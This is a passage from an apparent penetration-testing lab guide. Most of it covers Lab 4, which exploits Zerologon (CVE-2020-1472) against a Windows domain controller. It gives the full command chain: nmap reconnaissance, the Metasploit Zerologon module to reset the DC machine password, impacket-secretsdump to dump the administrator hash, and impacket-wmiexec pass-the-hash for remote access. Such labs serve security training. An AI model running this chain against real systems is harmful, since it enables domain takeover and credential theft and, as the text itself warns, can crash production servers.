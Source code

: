 #### Why It Works
TO-DO..
#### Alternatives
TO-DO..

#### Resources
- [Nmap SMB Scripts: https://nmap.org/nsedoc/categories/smb.html]

#### Notes
- Beware!! It is a very dangerous exploit that may crash the whole server in production. 

---

### Lab 4: Zerologon
#### Objective
Exploit the Zerologon vulnerability to reset a domain controller’s machine account password.

#### Vulnerabilities
- Zerologon (CVE-2020-1472): Flawed Netlogon authentication allows password reset without credentials.

#### Requirements
Target domain controller must be running an unpatched Windows Server.

#### Steps
1. **Setup**
   - Verify connectivity to the domain controller.
   ```bash
   ping <DC_IP>
   ```
2. **Reconnaissance**
   - Confirm Netlogon service is active.
   ```bash
   $ nmap -Pn -n -F -v --open <DC_IP>
   $ nmap -Pn -n -p 445 -sV -sC -v --open <DC_IP>
   ```
3. **Exploitation**
   - Use Zerologon in msfconsole to exploit to reset the DC password. Obtain the DC and hsot name  from nmap scan or from the command `nxc smb <DC_IP>`. In our case it was 'DC1'.
   ```bash
   msf6>$ use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
   msf6>$ set RHOSTS <DC_IP>
   msf6>$ set NBNAME DC1
   msf6>$ check
   msf6>$ exploit
   ```
   - After successfully executing the exploit, we can dump the secrets with impacket secrets dump.
   ```bash
   impacket-secretsdump -no-pass -just-dc-user administrator 'sandbox.local/DC1$<DC_IP>' 
   ```
   - Use the dumped hash to connect with the impacket module wmiexec. You will find the flag in the desktop of the Administrator directory.
   ```bash
   impacket-wmiexec -hashes '<HASH_OBTAINED>' 'sandbox.local/administrator@<DC_IP>'
   ```
